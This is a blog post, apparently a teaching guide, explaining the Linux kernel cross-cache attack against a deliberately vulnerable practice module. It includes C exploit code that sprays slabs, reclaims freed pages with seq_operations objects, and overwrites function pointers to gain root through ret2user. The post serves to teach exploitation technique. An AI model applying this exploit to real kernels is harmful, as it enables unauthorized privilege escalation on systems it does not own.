 ```yaml
---
title: Linux Kernel Exploitation - Cross Cache Attack
date: 2025-04-27
categories: [Guide, Linux Kernel Exploitation]
tags: [linux]
---
```


In this blog post, I will explain the cross-cache attack — a fundamental technique for advanced Linux kernel exploitation. Understanding this technique is important to understand other exploitation techniques, such as Dirty PageTable and DirtyCred, which I will cover in future posts.
Be sure to download the [handouts](https://github.com/r1ru/linux-kernel-exploitation/tree/main/cross-cache-attack) beforehand.

## Analysis
The vulunable LKM has three commands: `CMD_ALLOC`, `CMD_WRITE`, `CMD_FREE`. These commands are used to allocate, write to, and free objects defined as follows:

```c
#define OBJ_SIZE    0x200

struct obj {
    char buf[OBJ_SIZE];
};
```

Note that `CMD_ALLOC` and `CMD_FREE` internally use `kmem_cache_zalloc` and `kmem_cache_free`, respectively.
It means a dedicated cache is used for managing these objects:

```c
static long obj_alloc(int id) {
    if (objs[id] != NULL) {
        return -1;
    }
    objs[id] = kmem_cache_zalloc(obj_cachep, GFP_KERNEL);
    if (objs[id] == NULL) {
        return -1;
    }
    return 0;
}

static long obj_free(int id) {
    kmem_cache_free(obj_cachep, objs[id]);
    return 0;
}
```

The cache is created in `module_initialize`:

```c
static int __init module_initialize(void) {
    if (misc_register(&vuln_dev) != 0) {
        return -1;
    }
    obj_cachep = KMEM_CACHE(obj, 0);
    if (!obj_cachep) {
        return -1;
    }
    return 0;
}
```

## Bugs
In `obj_free`, `objs[id]` - a refence to freed memory region - is not cleared:
```c
static long obj_free(int id) {
    kmem_cache_free(obj_cachep, objs[id]);
    return 0;
}
```
This results in an obvious UAF vulnerability. Since we already have a write primitive, it's natural to think about overlapping freed objects with some useful kernel objects, like `seq_operations` or `tty_struct`, to overwrite function pointers and control RIP.

However, we cannot simply do it, since the objects are allocated from a dedicated cache. This is where the cross cache attack comes in.

## Cross Cache Attack
> We focus only on cross cache attacks in UAF scenarios and ignore OOB cases here.
{: .prompt-warning }

The main idea of the cross cache attack is to turn a dangling reference to an object into a dangling reference to its underlying pages. As you know, kernel objects are allocated from slab caches consists of one or more slabs. Each slab is consits of 2^order pages (see `/sys/kernel/slab/<CACHE_NAME>/order`) and contains `objs_per_slab` objects (see `/sys/kernel/slab/<CACHE_NAME>/objs_per_slab`). 

When all objects in a slab are freed, underlying pages are returned to the buddy allocator if the fllowing aditional conditions are met:
- The slab is not the active slab
- The per-cpu partial slab list is full

This technique is extremely powerful. By using it, you can ideally overlap victim objects with arbitrary kernel objects, and it has been used in many real-world kernel exploitations.

## Exploitation
First, we allocate `objs_per_slabs * (cpu_partial + 1)` objects to prepare `cpu_partial + 1` slabs, which will later be used to fill the per-cpu slab list:
```c
int objs_per_slab = 8;
int cpu_partial = 52;
int num_sprary = objs_per_slab * (cpu_partial + 1);

for (int i = 0; i < num_sprary; i++) {
    obj_alloc(i);
}
```
Second, we allocate one object to create a new active slab.
```c
obj_alloc(num_sprary);
```
Third, we free the objects in the slabs obtained in step 1 to fill the per-cpu partial slab list and release the underlying order-0 pages. To increase the reliability, we only free all objects in even-numbered slabs. This is because if continuous pages are freed, the buddy allocator will merge them and treat them as higher-order pages, which makes it more difficult to reclaim them later.
```c
for (int i = 0; i < num_sprary; i += objs_per_slab) {
    if (i % (objs_per_slab * 2) == 0) {
        for (int j = i; j < i + objs_per_slab; j++) {
            obj_free(j);
        }
    } else {
        obj_free(i);
    }
}
```
Fourth, we allocate a large number of `seq_operations` and make the order-0 pages freed in step 3 be used as the kmalloc-32 slabs. Since kmalloc-32 also uses order-0 pages, the attack has a high chance of success.
```c
int seqfds[0x20];
for (int i = 0; i < 0x20; i++) {
    seqfds[i] = open("/proc/self/stat", O_RDONLY);
    assert(seqfds[i] >= 0);
}
```
Finally, we use `CMD_WRITE` to overwrite function pointers in `seq_operations` and control RIP. Since SMAP, SMEP, KASLR, and KPTI are disabled, you can easily escalate privileges via ret2user:
```c
char payload[0x8];
*(unsigned long *)&payload = (unsigned long)escalate_privilege;

for (int i = 0; i < num_sprary; i += objs_per_slab) {
    if (i % (objs_per_slab * 2) == 0) {
        obj_write(i, payload, 0x8);
    }
}

for (int i = 0; i < 0x20; i++) {
    read(seqfds[i], payload, 1);
}
```
By running this exploit, you can achive root privilege and see the flag:
![win](/assets/img/posts/2025-04-27-1/win.png)

## References
1. Awarau and pql. 2022. CVE-2022-29582. https://ruia-ruia.github.io/2022/08/05/CVE-2022-29582-io-uring/#crossing-the-cache-boundary
2. Imran Khan. 2022. Linux SLUB Allocator Internals and Debugging, Part 1 of 4. https://blogs.oracle.com/linux/post/linux-slub-allocator-internals-and-debugging-1